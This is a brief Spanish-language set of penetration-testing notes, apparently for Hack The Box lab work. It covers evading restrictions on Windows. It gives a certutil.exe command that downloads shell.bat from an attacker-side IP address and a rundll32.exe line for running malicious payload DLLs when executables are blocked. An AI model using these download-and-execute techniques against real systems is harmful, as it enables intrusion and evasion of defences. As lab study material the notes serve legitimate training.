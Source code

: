 ### Traspaso de archivos restringido
Si nos vemos en un entorno restringido para el traspaso de archivos, certutil.exe puede ser usado para transmitirlos. Certutil se emplea para manejar certificados, pero tiene una disrupción que permite descargar cosas

    certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat

### Entornos restringidos:
Estos casos son muchos, dejo la guia de htb

    https://academy.hackthebox.com/module/67/section/2502

### Explotación por medio de librerías.
Muchas veces nos vemos impedidos de correr archivos .exe, en esos casos podemos intentar correr librerías con payloads maliciosos.

    rundll32.exe <DLL>

